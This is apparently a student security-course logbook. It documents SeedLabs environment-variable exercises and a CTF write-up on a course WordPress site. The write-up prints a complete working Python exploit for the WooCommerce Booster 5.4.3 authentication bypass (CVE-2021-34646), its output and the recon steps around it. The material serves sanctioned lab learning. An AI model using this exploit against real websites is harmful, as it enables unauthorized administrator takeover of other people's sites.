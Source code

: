 # Trabalho realizado na Semana #4

<br>

# SeedLabs Tasks

<br>

## Task 1 : Manipulating Environment Variables

<figure>
   <img src="images/logbook4/task1/printenv.png" alt="Usage of &quot;printenv&quot;" width="50%" />
   <figcaption><strong>Fig 1. </strong> Usage of &quot;printenv&quot;</figcaption>
</figure>

<figure>
   <img src="images/logbook4/task1/env.png" alt="Usage of &quot;env&quot;" width="50%" />
   <figcaption><strong>Fig 2. </strong> Usage of &quot;env&quot;</figcaption>
</figure>

<figure>
   <img src="images/logbook4/task1/export.png" alt="Usage of &quot;export&quot;" width="50%" />
   <figcaption><strong>Fig 3. </strong>Usage of &quot;export&quot;</figcaption>
</figure>

<figure>
   <img src="images/logbook4/task1/unset.png" alt="Usage of &quot;unset&quot;" width="50%" />
   <figcaption><strong>Fig 4. </strong>Usage of &quot;unset&quot;</figcaption>
</figure>

In this task we learn that:

- *printenv* and *env* are used to display the environment variables set in a machine.

- To search for a specific environment variable, we can use `printenv <ENV_VAR>` or `env | grep <ENV_VAR>`

- To add an environment variable we can use *export*, like `export <ENV_VAR>=<ENV_VAL>`

- To remove an environment variable we can use *unset*, like `unset <ENV_VAR>`

<br>

## Task 2 : Passing Environment Variables from Parent Process to Child Process

In the `Labsetup` folder, you'll find a file called `myprintenv.c`.

1. Compile the `myprintenv.c` file using `gcc myprintenv.c`.
2. Execute the program and save its output a file using `a.out > child_env`. 
3. Comment out the line marked with 1 and uncomment the line marked with 2.
4. Compile the program again using `gcc myprintenv.c`.
5. Execute the program and save its output to another file using `a.out > parent_env`.
6. Compare the two outputs using `diff child_env parent_env`.

No output is given in step 6, indicating that all environment variables are inherited with fork.

<figure>
   <img src="images/logbook4/task2/overview.png" alt="Overview of task 2" width="50%" />
   <figcaption><strong>Fig 5. </strong>Overview of task 2</figcaption>
</figure>

<br>

## Task 3 : Environment Variables and *execve()*

In the `Labsetup` folder, you'll find a file called `myenv.c`.

1. Compile the `myenv.c` file using `gcc myenv.c`.
2. Execute the program and save its output to a file using `a.out > null_env`.
3. Replace `NULL` with `environ` on the invocation of `execve`.
4. Compile the `myenv.c` file again using `gcc myenv.c`.
5. Execute the program and save its output to a file using `a.out > environ_env`.
6. Compare the changes using `diff null_env environ_env`.

<figure>
   <img src="images/logbook4/task3/overview.png" alt="Overview of task 3" width="50%" />
   <figcaption><strong>Fig 6. </strong>Overview of task 3</figcaption>
</figure>

As we can see, the `environ_env` file - when `environ` was passed to `execve` - has more environment variables
than the `null_env` file - when `NULL` was passed to `execve`. In fact, when `NULL` is passed to `execve`, the
resulting process has no environment variables.

The declaraction of `execve` helps us understand why this is the case.

```c
int execve(const char *pathname, char *const argv[],
                  char *const envp[]);
```

The `envp` array is the array of environment variables that will be passed to the resulting process. Therefore,
if we pass `NULL` to it, no environment variables will be passed to the resulting process and, if we pass `environment`,
the calling process' environment variables will be passed to the resulting process.

<br>

## Task 4 : Environment Variables and system()

1. Compile the following program

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
   system("/usr/bin/env");
   return 0 ;
}
```

2. Execute the program
3. Analyze the result

<figure>
   <img src="images/logbook4/task3/overview.png" alt="Overview of task 4" width="50%" />
   <figcaption><strong>Fig 7. </strong>Overview of task 4</figcaption>
</figure>

As we can see, the program behaves as if we called `env` directly from our shell, showing us all the process'
environment variables. When using `system`, it's as if we called the function

```c
execl("/bin/sh", "sh", "-c", "/usr/bin/env", (char *) NULL);
```

This function will afterwards call the `execve` function with the process' environment variables and, therefore,
the results will be the same.

<br>

## Task 5 : Environment Variable and Set-UID Programs

### Step 2

```bash
[10/02/22]seed@VM:~/.../Labsetup$ gcc newprog.c
[10/02/22]seed@VM:~/.../Labsetup$ sudo chown root a.out
[10/02/22]seed@VM:~/.../Labsetup$ ll a.out 
-rwxrwxr-x 1 root seed 16768 Oct  2 21:20 a.out
[10/02/22]seed@VM:~/.../Labsetup$ sudo chmod 4755 a.out 
[10/02/22]seed@VM:~/.../Labsetup$ ll a.out 
-rwsr-xr-x 1 root seed 16768 Oct  2 21:20 a.out
```

### Step 3

<TODO>

<br>

## Task 6 : The PATH Environment Variable and Set-UID Programs

<TODO>

<br>

## Task 7 : The LD PRELOAD Environment Variable and Set-UID Programs

<TODO>

---

# CTF

## Challenge 1

O desafio 1 consiste em descobrir o CVE presente no website disponibilizado que permite adquirir

### Recon

Nota: Todo este processo poderia ter sido automatizado usando uma ferramenta como o [wpscan](https://wpscan.com/), contudo optamos por uma abordagem manual.

Na fase de recon, começamos por verificar as tecnologias utilizadas no site:

#### Step 1 - Descobrir as tecnologias utilizadas

```bash
❯ whatweb http://ctf-fsi.fe.up.pt:5001
http://ctf-fsi.fe.up.pt:5001/ [200 OK] Apache[2.4.54], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.54 (Debian)], IP[10.227.243.188], JQuery[3.6.0], MetaGenerator[WooCommerce 5.7.1,WordPress 5.8.1], PHP[8.0.23], Script[application/ld+json,text/javascript], Title[Secure WP Hosting &#8211; Military-grade secure hosting], UncommonHeaders[link], WordPress[5.8.1], X-Powered-By[PHP/8.0.23]
```

Sabemos agora que o website usa `wordpress` para o hosting, tal como podemos ver na homepage do mesmo.

#### Step 2 - Enumerar as versões utilizadas

Começamos por enumerar a versão do wordpress, acedendo ao endpoint [http://ctf-fsi.fe.up.pt:5001/comments/feed/](http://ctf-fsi.fe.up.pt:5001/comments/feed/), no qual descobrimos que a versão utilizada é a `5.8.1`.

Para enumerar os plugins vimos as stylesheets e os scripts utilizados e descobrimos uma stylesheet com o nome `woocommerce.css`. Como [Woocommerce](https://wordpress.org/plugins/woocommerce/) é um plugin conhecido de Wordpress, fomos pesquisar um pouco sobre ele e descobrimos que neste website está a ser usado o package [Wordpress Booster](http://ctf-fsi.fe.up.pt:5001/wp-content/plugins/woocommerce-jetpack/readme.txt) na versão `5.4.3`.

Pesquisando esta versão descobrimos que era vulnerável ao [CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646).

```bash
❯ searchsploit WooCommerce Booster  5.4.3
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass                                        | php/webapps/50299.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Este CVE permite dar Bypass à autenticação, sem permissões para o fazer, adequando-se então à descrição da challenge e sendo a flag: `flag{CVE-2021-34646}`

#### Step 3 - Enumerar os users existentes

Para enumerar os users existentes podemos aceder ao enpoint [ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1](ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1), no qual descobrimos, entre outras informações, a existência do user `admin`.

Ao descobrir isto tentamos imediatamente aceder ao `wp-admin` e testar as credenciais default `admin:admin`, mas neste caso, sem resultado.  

## CTF - Desafio 2

### Exploitation

Após sabermos que conseguiamos dar bypass à autenticação com este exploit e a existência do user `admin`, trata-se de uma questão de alterar o exploit e corrê-lo na instầncia do website:

#### Step 1 - Correr o Exploit

O exploit existente é:

```python
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

Após lermos o exploit e termos uma ideia de como funciona, percebemos que para corrê-lo basta passar os argumentos `url` e `id` (id do user admin, encontrado na fase de enumeração [1])

```bash
❯ python /usr/share/exploitdb/exploits/php/webapps/50299.py http://ctf-fsi.fe.up.pt:5001/ 1
Timestamp: Sun, 02 Oct 2022 18:14:05 GMT
Timestamp (unix): 1664734445

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash 4f2b6aac39e69113227cda21f4d56b54:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNGYyYjZhYWMzOWU2OTExMzIyN2NkYTIxZjRkNTZiNTQifQ
```

#### Step 2 - Aceder ao url resultante do script

Após aceder ao url resultante do script obtemos acesso de admin

<figure width="50%">
   <img src="images/logbook4/auth_bypass.png" alt="Admin Dashboard" width="50%" />
   <figcaption><strong>Fig 1.</strong> Admin Authentication Bypass</figcaption>

</figure>

### Step 3 - Aceder ao endpoint da flag

De seguida, precisamos apenas de aceder ao endereço fornecido no moodle (http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php) para ver os posts feitos pelo admin e abrir o post privado "Message to our employees", do qual podemos obter a flag: `flag{please don't bother me}`.
